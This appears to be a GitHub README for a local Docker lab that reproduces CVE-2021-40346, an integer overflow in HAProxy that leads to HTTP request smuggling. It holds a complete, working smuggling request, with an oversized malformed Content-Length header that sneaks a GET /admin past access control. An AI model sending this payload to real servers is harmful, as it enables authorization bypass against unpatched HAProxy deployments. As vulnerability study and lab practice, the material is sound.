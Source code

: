 # HaProxy Integer Overflow \
# leads to HTTP Smuggling (CVE-2021-40346)

HaProxy is a popular load balancer software. CVE-2021-40346 is an integer overflow vulnerability, which leads to http smuggling. And, in turn, HTTP Smuggling leads to potential authorization bypasses or other consequences (see References for HTTP Smuggling). \
A malicious Content-Length header leads to integer overflow. Later, this enables another vulnerability - HTTP Request Smuggling. In turn, this might lead to an authorization bypass.

### Clear any existing containers
```
docker kill $(docker ps -q)
```

## Build ##
```sh
cd 6-haproxy-overflow-2-smuggling
docker-compose build 
docker-compose up -d
```

## Proxy
Catch the base request into Burp. Try to access either 'guest' and 'admin' endpoints separately.
```
curl --proxy http://127.0.0.1:8080 http://192.168.139.128:10001/guest
```

![image](https://user-images.githubusercontent.com/31791455/140397000-4a163839-973f-42df-ac35-63601567f46e.png)


## Exploitation with Burp Suite
Remember to uncheck "update content length" when dealing with Smuggling in Burp! 

![image](https://user-images.githubusercontent.com/31791455/140394586-6a44d0f5-363e-455c-b22b-f619868bcc87.png)


## Exploit ##
Be careful - note that an extra line might break the exploit. Turn on newline preview (the '\n' button) in Repeater for extra visiblity.
```
POST /guest HTTP/1.1
Host: localhost:10001
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 23

GET /admin HTTP/1.1
h:GET /guest HTTP/1.1
Host: localhost:10001


```

![image](https://user-images.githubusercontent.com/31791455/140395810-d1890aee-1285-451a-a663-bbf35746b5db.png)



## Recommended reading:
https://forum.butian.net/share/694 \
https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/ \
https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn

## Credits:
https://github.com/donky16/CVE-2021-40346-POC


